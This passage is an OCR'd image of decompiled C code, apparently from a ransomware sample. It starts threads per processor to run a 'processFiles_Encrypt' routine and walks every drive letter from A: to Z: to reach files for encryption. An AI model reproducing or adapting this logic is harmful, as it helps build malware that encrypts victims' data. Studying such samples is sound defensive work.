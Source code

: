```c
                                    ++threads )                      pthread_create(                        (char  * )QUERY_FILE_THREAD_IDS  +  8  *  threads, 0i64, processFiles_Encrypt, (char  * )thread_is  +  4  *  threads);
                                    for ( threads = 0;
                                    threads < num_processors;
                                    ++threads )                      pthread_detach((char  * )QUERY_FILE_THREAD_IDS  +  8  *  threads);
                                    if ( **((_BYTE **)v14  +  1) )  {
                                        openDriveDirectory( * ((_QWORD  * )v14  +  1));
                                    } else {
                                        drive = (char  * )malloc(0x1000ui64);
                                        for ( drive_letter = 'A';
                                        (int)drive_letter <= 'Z';
                                        ++drive_letter ) {
                                            sprintf(drive, "%c:/", drive_letter);
                                            openDriveDirectory((__int64)drive);
                                        }

                                        free(drive);
                                    }

                                    v11 = 1280  *  num_processors;
                                    while ( v11 > QUERY_EMPTY_CIRCLES[0] )                      Sleep(0xAu);
                                    v18 = 0;
                                    while ( !v18 )  {
                                        v18 = 1;
                                        for ( threads = 0;
                                        threads < num_processors;
                                        ++threads ) {
                                            sub_442050((char  * )MUTEXES  +  8  *  threads);
                                            if (  * ((_DWORD  * )QUERY_FILE_POSS  +  threads) !=  - 1 )                           v18 = 0;
                                            sub_442320((char  * )MUTEXES  +  8  *  threads);
                                        }

                                        Sleep(0xAu);
                                    }

                                    QUERY_RUNNING = 0;
                                }

                            }

                        }

                    }

                }

            }

        }

    }

}

LABEL_45:  free(prngs);
free(PRNG_IDXS);
for ( threads = 0;
threads < num_processors;
++threads )    sub_4424C0((char  * )MUTEXES  +  8  *  threads);
```